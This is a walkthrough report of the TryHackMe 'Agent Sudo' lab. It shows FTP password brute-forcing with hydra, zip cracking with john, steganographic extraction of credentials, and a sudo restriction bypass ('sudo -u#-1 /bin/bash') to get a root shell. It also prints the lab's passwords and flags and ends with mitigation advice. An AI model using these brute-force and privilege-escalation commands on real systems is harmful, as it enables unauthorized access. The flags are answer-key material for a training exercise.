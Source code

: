 # 🟩Agent Sudo -  Try Hack Me (THM) Walkthrough Report
**Prepared by:** Nishanth Antony  
**Date:** August 21, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Steganography / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

### 1. Reconnaissance Steps  
**Objective:** Identify active hosts, open ports, services, and vulnerabilities.  
**Commands Used:**  
- `ping <target_ip>`  
- `nmap -p- --min-rate=1000 -sV <target_ip> -T4 -v`  
- `hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp`  

**Findings:**  
- Host confirmed online via ping.  
- Open ports: FTP (21, vsftpd 3.0.3), SSH (22, OpenSSH 7.6p1), HTTP (80, Apache 2.4.29).  
- Webpage `/agent_C_attention.php` hinted at user chris with a weak password.  
- FTP enumeration revealed files: To_agentJ.txt, cute-alien.jpg, cutie.png.  

---

### 2. Exploitation Process  
**Step 1 – Web Enumeration (Port 80)**  
- Accessed `/agent_C_attention.php`: Revealed user chris with a weak password and mention of agent J.  

**Step 2 – FTP Brute-Force (Port 21)**  
- Brute-forced chris’s FTP credentials:
```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp
``` 
- Result: Password `crystal`.  

**Step 3 – FTP Access and File Retrieval**  
- Logged into FTP with chris:crystal:
  ```bash 
  ftp chris@<target_ip>
  ```
- Downloaded files: To_agentJ.txt, cute-alien.jpg, cutie.png.  

**Step 4 – Steganography Analysis**  
- Analyzed cutie.png with binwalk:
  ```bash
  binwalk -e cutie.png
  ```
- Found encrypted zip (8702.zip) containing To_agentR.txt.  
- Cracked zip password with john:
  ```bash
  zip2john 8702.zip > zip.hash  
  john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
  ```
- Result: Password `alien`.  
- Extracted To_agentR.txt: Revealed encoded username QXJlYTUx (base64: Area51).  
- Extracted hidden message from cute-alien.jpg using steghide:
  ```bash
  `steghide extract -sf cute-alien.jpg -p alien`
  ```
- Result: message.txt with james’s password `hackerrules!`.  

**Step 5 – SSH Access as James**  
- Logged in via SSH:  
  `ssh james@<target_ip>` with password `hackerrules!`.  
- Found user_flag.txt and Alien_autospy.jpg in /home/james.  
- user_flag.txt: `b03d975e8c92a7c04146cfa7a5a313c7`.  

**Step 6 – Privilege Escalation**  
- Checked sudo permissions:
  ```bash
  sudo -l
  ```
- Found james could run `/bin/bash` as any user except root.  
- Exploited sudo misconfiguration:
  ```bash 
  sudo -u#-1 /bin/bash
  ```
- Gained root shell and accessed /root/root.txt:  
  `b53a02f55b57d4439e3341834d70c062`.  

---

### 3. Proof of Concept (PoC)  
- **FTP Brute Force:**
  ```bash
  hydra -l chris -P /usr/share/wordlists/rockyou.txt <target_ip> ftp
  ``` 
  Obtained chris:crystal.  
- **Zip Password Cracking:**
  ```bash
  john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
  ```
  Cracked password alien.  
- **Steganography Extraction:**
  ```bash
  steghide extract -sf cute-alien.jpg -p alien
  ``` 
  Obtained james:hackerrules!.  
- **Privilege Escalation:**
  ```bash
  sudo -u#-1 /bin/bash
  ```
  Gained root access to root.txt.  

---

### 4. Privilege Escalation  
- Exploited sudo misconfiguration allowing james to run `/bin/bash` as any user except root.  
- Used `-u#-1` to bypass restriction and gain root shell.  

---

### 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Remove sensitive files like `/agent_C_attention.php`.  
  - Restrict web directory access with authentication.  
- **Authentication Security:**  
  - Enforce strong passwords for FTP and SSH.  
  - Implement multi-factor authentication.  
- **File Security:**  
  - Avoid storing sensitive data in publicly accessible FTP directories.  
  - Use strong encryption for hidden data in images.  
- **Sudo Configuration:**  
  - Restrict sudo commands to specific, necessary actions.  
  - Prevent wildcard user specifications (e.g., ALL, !root).  
- **Patch Management:**  
  - Update vsftpd, OpenSSH, and Apache to the latest versions.  
  - Monitor logs for unauthorized access attempts.  

---

### 6. Lessons Learned  
- **Weak Credentials:** Easily brute-forced passwords (e.g., crystal) enable initial access.  
- **Steganography Exposure:** Hidden data in images can leak credentials if poorly protected.  
- **Sudo Misconfiguration:** Overly permissive sudo rules allow privilege escalation.  
- **File Security:** Publicly accessible files on FTP servers are vulnerable to exploitation.  

---

### 7. Skills Practiced  
- Network scanning (`nmap`, `ping`)  
- Credential brute-forcing (`hydra`)  
- FTP enumeration and file retrieval  
- Steganography analysis (`steghide`, `binwalk`)  
- Password cracking (`john`, `zip2john`)  
- SSH access and privilege escalation  
- Secure reporting and mitigation strategies
